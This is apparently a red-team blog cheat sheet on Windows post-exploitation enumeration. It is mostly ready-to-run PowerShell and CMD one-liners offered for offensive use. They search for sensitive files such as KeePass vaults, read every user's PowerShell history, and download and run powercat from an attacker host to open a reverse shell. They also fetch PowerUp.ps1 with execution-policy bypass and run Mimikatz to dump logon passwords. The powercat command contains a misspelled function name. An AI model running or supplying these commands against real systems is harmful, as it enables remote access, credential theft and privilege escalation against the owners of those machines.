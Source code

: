 ```yaml
---
title: Windows Enumeration for Red Team
author: "novran"
date: 2024-11-27 00:00:00 +0700
categories: [Windows Pentest]
tags: [Windows Pentest]
mermaid: true
---
```


## Find Juicy Files

```powershell
# Unfiltered
Get-ChildItem -Path . -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }

# Filterer Extension
Get-ChildItem -Path . -Include *.txt -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }

# Filterer Multiple Extensions
Get-ChildItem -Path . -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.kdbx,*.ini,*.yaml,*.yml,*.xml,*.sql -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }
```

## Reverse Shell

### Invoke-Expression with PowerCat

Download [Powercat v2.0](https://github.com/rexpository/powercat-v2.0).

```
# PowerShell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/powercat.ps1');powerrcatt -c <ATTACKER_IP> -p 5555 -e cmd

# CMD
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/powercat.ps1');powerrcatt -c <ATTACKER_IP> -p 5555 -e cmd"
```

## PowerShell History

```powershell
Get-History
(Get-PSReadlineOption).HistorySavePath
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Enumerate All Users via Administrator
```powershell
Get-WmiObject Win32_UserProfile | Where-Object { -not $_.Special -and $_.LocalPath } | ForEach-Object { $file = Join-Path -Path $_.LocalPath -ChildPath "AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"; if (Test-Path $file) { "`n=== History for user: $($_.LocalPath) ===`n"; Get-Content $file } }
```

Script Block Logging.
```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object { $_.Id -eq 4104 } | Format-List -Property * | Out-File "scriptblocklogs.txt"
```

## Privilege Escalation (Auto)

Download [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```
powershell -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/PowerUp.ps1'); Invoke-AllChecks"
```

## Credential Dump

Download [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest).

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```
